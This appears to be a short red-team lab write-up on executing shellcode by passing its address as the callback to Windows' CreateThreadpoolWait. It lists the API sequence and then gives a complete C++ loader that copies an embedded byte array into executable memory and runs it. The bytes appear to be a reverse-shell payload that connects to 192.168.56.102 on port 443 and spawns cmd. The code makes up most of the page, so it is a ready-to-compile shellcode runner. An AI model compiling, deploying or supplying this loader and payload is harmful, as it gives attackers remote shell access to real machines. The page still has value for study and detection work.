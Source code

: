# Shellcode Execution via CreateThreadpoolWait

This is a quick lab to explore the sequence of APIs, that can execute shellcode by invoking a callback function passed to `CreateThreadpoolWait`.

## Technique Overview

1. `CreateEvent` is used to create an event object with a `Signaled` state
2. RWX memory for the shellcode is allocated with `VirtualAlloc` and the shellcode is written there
3. `CreateThreadpoolWait` is used to create a wait object. 1st argument of the function is a callback function, that will be called once the wait ends \(immediately in our case, since our waitable event is in the `Signaled` state from the start\). We will pass the address of our shellcode \(allocated in step 2\) as the callback function
4. `SetThreadpoolWait` is used to set wait object to the wait object created in step 3
5. `WaitForSingleObject` is used to wait for the waitable object to become `Signaled`, but since our event \(waitable\) object was created with a `Signaled` state in step 1, our callback function specified in step 3 is called and the shellcode is executed right away:

![](../../.gitbook/assets/setthreadpoolwait-shellcode.gif)

## Code

```cpp
#include <windows.h>
#include <threadpoolapiset.h>

unsigned char shellcode[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";


int main()
{
    HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);
    LPVOID shellcodeAddress = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    RtlMoveMemory(shellcodeAddress, shellcode, sizeof(shellcode));

    PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)shellcodeAddress, NULL, NULL);
    SetThreadpoolWait(threadPoolWait, event, NULL);
    WaitForSingleObject(event, INFINITE);

    return 0;
}
```

## References

[https://gist.github.com/alfarom256/180c90c2bc0ae6bfa5d109d822ea77a4](https://gist.github.com/alfarom256/180c90c2bc0ae6bfa5d109d822ea77a4)


